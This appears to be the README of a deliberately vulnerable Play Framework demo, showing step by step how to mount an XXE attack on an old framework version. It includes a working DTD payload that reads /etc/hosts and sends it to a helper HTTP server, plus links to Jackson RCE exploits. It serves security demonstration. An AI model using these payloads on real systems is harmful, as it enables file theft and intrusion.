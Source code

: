 # Vulnerable Play application

The point for this repo is to show how easy is to do XXE attack on old version of the framework

## Steps

### Step 1
Run the app `sbt run`

### Step 2 
Create a service to serve malicious content. 

``ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start'``

### Step 3
Create malicious input as file test.dtd

```xml
 <!ENTITY % p1 SYSTEM "file:///etc/hosts">
 <!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://127.0.0.1:8000/BLAH?%p1;'>">
 %p2;
``` 


### Step 4
Query the service:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://127.0.0.1:8000/test.dtd">
<foo>&e1;</foo>
```


TODO:
- https://github.com/irsl/jackson-rce-via-spel
- Look at JSON problems "https://github.com/conikeec/jackspoilt"
- https://www.cvedetails.com/cve/CVE-2017-15095/
- https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
 
